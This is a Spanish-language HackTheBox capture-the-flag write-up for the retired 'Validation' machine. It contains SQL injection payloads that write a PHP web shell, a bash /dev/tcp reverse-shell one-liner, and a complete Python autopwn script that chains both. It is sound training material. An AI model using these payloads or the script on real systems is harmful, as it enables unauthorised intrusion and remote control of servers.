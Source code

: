 ```yaml
---
title: Validation
layout: page
permalink: /HTB_Validation
---
```


<h2 class="amarillo">HackTheBox - Validation WriteUp - Máquina retirada</h2>
<div id="logos" style="text-align: center;">
  <img src="/assets/images/HTB/Validation/Validation.png" alt="under" oncontextmenu="return false;">
</div>

Comenzamos encendiendo la maquina Validation y obtenemos la dirección IP 10.129.95.235 y para identificar a que sistema operativo nos estamos enfrentando en base al TLL
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/1.png" alt="under" oncontextmenu="return false;">
</div>
![[HTB/Machines/Validation/Images/1.png]]
Y vemos que tenemos un TLL de 63 por tanto estamos frente una maquina Linux

<h2 class="amarillo">Enumeración</h2>

Comenzamos enumerando la maquina identificando los puertos que estén abiertos `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn` y exportamos la captura 
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/2.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que tenemos los puertos abiertos 22 80 4566 8080, con estos puertos procedemos a hacer un escaneo exhaustivo para identificar la version y servicio y corren para cada uno de estos puertos
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/3.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un puerto 80 con el servicio http (una pagina web) la cual enumeraremos con whatweb

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/4.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a hacer algo de fuzzing con un diccionario de mil y pico rutas que nos trae nmap `--script http-enum`
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/5.png" alt="under" oncontextmenu="return false;">
</div>

A pesar de encontrar una ruta /accounts.php, iremos primero a la web

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/6.png" alt="under" oncontextmenu="return false;">
</div>

Vemos que podemos registrar usuarios en la pagina web y que el texto que pongamos en username se ve reflejado en la web, y las tecnologías que tiene la web vemos que tiene php
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/7.png" alt="under" oncontextmenu="return false;">
</div>

Y accediendo a /account.php con nuestro input malicioso en username:

```javascript
alert("XSS")
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/8.png" alt="under" oncontextmenu="return false;">
</div>

La pagina es vulnerable a XSS, pero viendo que podemos listar diferentes tipos de usuarios seleccionando el país probamos a realizar una inyección SQL filtrando todo el trafico en el proxy de BurpSuite

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/9.png" alt="under" oncontextmenu="return false;">
</div>

Hacemos el SQLI hasta que encontramos información relevante

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/10.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/11.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/12.png" alt="under" oncontextmenu="return false;">
</div>

A pesar de encontrar columnas interesantes no hay nada
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/13.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/14.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/15.png" alt="under" oncontextmenu="return false;">
</div>

Encontramos lo que parece ser un usuario uhc

```
uhc:*C6A38A5736CBA87E617301ECAB64184671128718
```

Suponiendo que nos encontramos en el directorio /var/www/html y que podemos abusar del SQL mediante el SQLi probamos a subir un prueba.txt

```sql
select "prueba" into outfile "/var/www/html/prueba.txt"-- -
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/16.png" alt="under" oncontextmenu="return false;">
</div>

Y accediendo de la URL vemos el contenido del archivo prueba.txt

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/17.png" alt="under" oncontextmenu="return false;">
</div>

Siguiendo este principio probamos a subir una reverse shell con php

```php
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
```

Intentando acceder a nuestra reverse subiéndola aprovechándonos del SQLi

```sql
select "<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>" into outfile "/var/www/html/reverse.php"-- -
```

Vemos que se ha creado la reverse shell y que la pagina web nos interpreta nuestro código malicioso
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/18.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a ejecutar **whoami** y perfecto
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/19.png" alt="under" oncontextmenu="return false;">
</div>

Por consecuencia tratamos de entablarnos una conexión remota con bash
```bash
bash -c "bash -i %26> /dev/tcp/10.10.16.42/443 0>%261"
```
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/20.png" alt="under" oncontextmenu="return false;">
</div>

Y estando en escucha recibimos la reverse shell, seguido hacemos un tratamiento de la TTY
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/21.png" alt="under" oncontextmenu="return false;">
</div>

Revisando un poco los archivos de configuración vemos una credencial y volvemos a ver el usuario uhc

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/22.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a conectarnos como el usuario uhc pero vemos que en el directorio /home/ este usuario no existe, haciendo un hostname -I vemos que estamos en un contenedor
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/23.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a conectarnos por ssh y reutilizando la credencial del usuario uhc habremos completado la maquina

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/24.png" alt="under" oncontextmenu="return false;">
</div>

De paso quiero compartir un script autopwn en python para acceder al www-data

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/poc.png" alt="under" oncontextmenu="return false;">
</div>

```python
#!/usr/bin/env python3
# Autor: Juan García aka liandd
import sys
import signal
from termcolor import colored
import requests
import argparse
import threading
from pwn import *


# Ctrl_C
def def_handler(sig, frame):
    print(colored("\n[!] Saliendo...\n", "red"))
    sys.exit(1)


# Ctrl_C
signal.signal(signal.SIGINT, def_handler)


def get_arguments():
    parser = argparse.ArgumentParser(
        description=colored("AutoPwn Validation", "red")+colored(" HTB", "green")+" by "+colored("liandd", "red"))
    parser.add_argument('-u', '--url', dest="URL",
                        help="Machine URL to Pwn (i.e --url http://10.129.95.235)")
    parser.add_argument('-i', '--ip', dest="IP",
                        help="IP address to get shell (i.e --IP 10.10.16.42)")
    parser.add_argument('-p', '--port', dest="PORT",
                        help="PORT to get shell (i.e --port 443)")

    options = parser.parse_args()
    if options.URL is None or options.IP is None or options.PORT is None:
        parser.print_help()
        print("\n\n")
        sys.exit(1)
    return options.URL, options.IP, options.PORT


def upload_file(URL):
    data = {'username': 'blyat',
            'country': """Uruguay' union select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"-- -"""}

    r = requests.post(URL, data=data)


def intrusion(URL, IP, PORT):
    data = {
        'cmd': "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1' " % (IP, PORT)}

    r = requests.get(URL + "/shell.php", params=data)


def main():
    URL, IP, PORT = get_arguments()
    upload_file(URL)

    try:
        threading.Thread(target=intrusion, args=(URL, IP, PORT)).start()
    except Exception as e:
        print(colored(e, "red"))

    shell = listen(PORT, timeout=20).wait_for_connection()
    shell.interactive()


if __name__ == '__main__':
    main()
```